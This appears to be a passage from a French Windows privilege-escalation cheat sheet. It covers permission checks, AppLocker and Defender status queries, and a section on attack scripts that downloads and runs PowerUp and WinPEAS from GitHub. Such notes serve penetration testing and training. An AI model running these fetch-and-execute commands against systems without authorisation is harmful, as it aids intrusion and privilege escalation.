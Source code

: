 ***

### 10. **Sécurité et Audits**

**Droits d'accès utilisateur**

Vérifie les droits et permissions de l'utilisateur actuel et des groupes.

```cmd
whoami /priv   # Affiche les privilèges de l'utilisateur actuel
accesschk.exe /accepteula -uws "Everyone" "C:\Program Files"   # Utilise AccessChk pour vérifier les permissions
```

***

### 11. **AppLocker et autres politiques de sécurité**

**Statut d'AppLocker**

Vérifie si AppLocker est activé et répertorie les politiques.

```powershell
Get-AppLockerPolicy -Effective -XML   # Affiche la politique AppLocker effective
```

**Statut de Windows Defender**

Vérifie si Windows Defender est activé et ses paramètres.

```cmd
sc query windefend   # Vérifie le statut du service Windows Defender
```

***

### 12. **Scripts d'attaque et d'exploitation**

**Recherche d'exploits locaux connus**

Télécharger et exécuter des scripts d'exploitation locaux pour automatiser la collecte d'informations.

* **PowerUp** et **WinPEAS** sont des scripts populaires pour cette tâche.

```powershell
# PowerUp - Un script PowerShell pour identifier les faiblesses de configuration
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" -OutFile "PowerUp.ps1"
Import-Module .\PowerUp.ps1
Invoke-AllChecks

# WinPEAS - Un outil de script de recherche automatique de failles
Invoke-WebRequest -Uri "https://github.com/carlospolop/PEASS-ng/releases/download/20230827/winPEASx64.exe" -OutFile "winPEASx64.exe"
.\winPEASx64.exe
```

Ces commandes et outils aident à identifier les vecteurs d'attaque potentiels pour l'escalade de privilèges sur un système Windows en exploitant les configurations faibles, les permissions incorrectes, et d'autres vulnérabilités.
